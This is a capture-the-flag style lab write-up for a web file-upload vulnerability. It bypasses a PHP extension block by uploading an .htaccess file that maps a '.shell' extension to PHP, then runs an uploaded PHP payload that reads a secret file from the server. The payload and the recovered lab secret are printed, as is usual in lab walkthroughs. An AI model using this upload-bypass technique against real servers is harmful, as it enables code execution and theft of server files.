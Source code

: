 ![image](https://github.com/udayk01/Web-Security/assets/52235763/160ff52e-71fa-4c29-b7e1-bf50f7dc57dc)

## Solution:

> Log in and upload an image as your avatar, then go back to your account page.

![image](https://github.com/udayk01/Web-Security/assets/52235763/a4317ecc-f357-4ab0-9729-598b07f22aca)

> In the proxy history, notice that your image was fetched using a GET request to ```/files/avatars/<YOUR-IMAGE>``` And one post request to ```/my-account/avatar``` also will be there . Send this two request to Burp Repeater.

> In POST request - ```/my-account/avatar``` we will remove the image content and change the file name to ```exploit.php``` and add a php script ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

 ![image](https://github.com/udayk01/Web-Security/assets/52235763/ff7c8786-5850-4a78-994e-8400733fecb5)

> But now in post request it is saying it php files are not allowed.

> So we will be changing the value of the filename parameter to ```.htaccess```

> Change the value of the Content-Type header to ```text/plain```. ANd Replace the contents of the file (your PHP payload) with the following Apache directive:

```AddType application/x-httpd-php .shell```

> This maps an arbitrary extension (.shell) to the executable MIME type ```application/x-httpd-php```. As the server uses the mod_php module, it knows how to handle this already.

![image](https://github.com/udayk01/Web-Security/assets/52235763/7573a8ce-c067-4958-b268-72a36675304f)

> Use the back arrow in Burp Repeater to return to the original request for uploading your PHP exploit.And Change the value of the filename parameter from exploit.php to exploit.shell then

![image](https://github.com/udayk01/Web-Security/assets/52235763/f2c39701-4f04-419b-99b3-93e847dac855)

> Send the request again and notice that the file was uploaded successfully.

> In GET request-

>> Change the file name to ```exploit.shell``` and send.

![image](https://github.com/udayk01/Web-Security/assets/52235763/b42d991d-08a9-4802-bf3d-42e7e521375f)

> Secret message: ```yUTPrroKU4yjRsp1OqUojtC87iZAZotA```

![image](https://github.com/udayk01/Web-Security/assets/52235763/46b91ff7-126a-4cdc-8743-605577e520e9)


